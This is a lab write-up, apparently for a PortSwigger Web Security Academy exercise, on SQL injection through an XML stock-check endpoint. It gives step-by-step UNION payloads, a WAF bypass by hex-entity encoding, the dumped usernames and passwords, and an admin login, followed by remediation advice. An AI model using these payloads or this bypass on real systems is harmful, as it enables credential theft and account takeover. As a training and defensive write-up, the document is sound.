





# SQL Injection with Filter Bypass via XML Encoding

## 1. Executive Summary
During the security assessment of the web application lab environment, a **Critical vulnerability** involving **SQL Injection (SQLi) via XML parsing** was discovered. The endpoint responsible for checking product stock levels processes user-supplied XML input without adequate sanitization or query parameterization. 

Although a Web Application Firewall (WAF) was actively blocking standard SQL syntax, the application’s backend processes decoded XML entities before passing them to the SQL interpreter. This architectural gap allowed the WAF to be completely bypassed by hex-encoding the malicious payload within an XML structure, leading to full database credential exfiltration and administrative account takeover.

---

## 2. Assessment Overview & Scope
*   **Target Application:** PortSwigger Web Security Academy Lab
*   **Vulnerability Class:** SQL Injection (OWASP Top 10: Injection)
*   **Testing Methodology:** Grey-box testing utilizing Burp Suite Professional/Community Edition to intercept and manipulate API traffic.
*   **Lab Goal:** Bypass the WAF, extract the administrative credentials from the `users` table, and successfully authenticate as the `administrator`.

---

## 3. Vulnerability Analysis & Proof of Concept (PoC)

### Phase 1: Interception & Vector Identification
The initial step involved mapping out the target request. When interacting with the "Check Stock" feature, the application transmits an HTTP POST request to the `/product/stock` endpoint using an XML payload structure rather than standard form parameters.

```xml
POST /product/stock HTTP/2
Host: 0a6d0054041c108980affdd900cd00c8.web-security-academy.net
...

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>4</productId>
    <storeId>1</storeId>
</stockCheck>
```



### Phase 2: WAF Detection and Bypass Strategy
Attempts to inject raw SQL syntax directly into the `<storeId>` tag triggered immediate block rules from the inline Web Application Firewall (WAF). 

To evade detection, the payload was structured using the Burp Suite extension **Hackvertor** to apply **Hex Entities** encoding (`<@hex_entities>`). Because the backend application decodes the XML entities *after* the WAF inspects the request but *before* compiling the database query, the obfuscated payload safely traversed the perimeter filter.

### Phase 3: Enumeration and Data Exfiltration (Step-by-Step)

#### Step 3a: Determining Number of Columns
A UNION-based payload was injected to find the column count required by the database query. A single-column structure successfully returned a baseline response (`0 units`) without breaking the application logic:

*   **Payload Sent:** `1 UNION SELECT NULL`
*   **Hackvertor Tags:** `<@hex_entities>1 UNION SELECT NULL<@/hex_entities>`



#### Step 3b: Verifying Data Type Compatibility
The column was tested to verify if it accepts text/string responses. The payload returned the string value safely, indicating suitability for data extraction:

*   **Payload Sent:** `1 UNION SELECT 'a'`
*   **Hackvertor Tags:** `<@hex_entities>1 UNION SELECT 'a'<@/hex_entities>`


#### Step 3c: Credential Exfiltration
With column constraints established, a targeted query was executed against the `users` table to retrieve usernames and passwords. The fields were concatenated using standard database string pairing syntax:

*   **Payload Sent:** `1 UNION SELECT username || '~' || password FROM users`
*   **Hackvertor Tags:** `<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>`

The backend database executed the decoded query and rendered the target credentials cleanly within the web response:

```text
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Length: 100

administrator~v8mgc4yu1qron65lusiv
carlos~aq5b5cpdufy8utx2p
wiener~f7z797zmqmm15pgo
```



**Extracted Administrative Credentials:**
*   **Username:** `administrator`
*   **Password:** `v8mgc4yu1qron65lusiv`

---

## 4. Exploitation & Post-Exploitation Takeover
Navigating to the `/login` interface of the Web Security Academy site, the extracted administrative credentials were submitted:

*   **Username:** `administrator`
*   **Password:** `v8mgc4yu1qron65lusiv`



The application successfully authenticated the session, granting full administrative privileges, establishing complete system compromise, and resolving the objective.



---

## 5. Remediation & Recommendations

### Primary Fix: Parameterized Queries (Prepared Statements)
The fundamental defect is the dynamic construction of SQL statements using raw XML node text values. Ensure that values extracted from XML targets are handled explicitly as data parameters rather than executable command segments.

```java
// Example Remediation using Java PreparedStatement
String query = "SELECT stock FROM product_stock WHERE product_id = ? AND store_id = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setInt(1, Integer.parseInt(xmlProductId));
pstmt.setInt(2, Integer.parseInt(xmlStoreId));
ResultSet results = pstmt.executeQuery();
```

### Secondary Fix: Hardening WAF Policies & Input Handling
*   **Deep Decoding Inspection:** Configure defensive filters or WAF engines to perform recursive decoding passes (including XML entities, URL encoding, and Unicode normalization) before applying signature-matching inspection blocks.
*   **Strict Strict Schema Validation:** Enforce strict XML Schema Definition (XSD) parsing on incoming API payloads to guarantee that fields like `<storeId>` only accept pure integer data types, rejecting alphanumeric inputs prior to database layers.
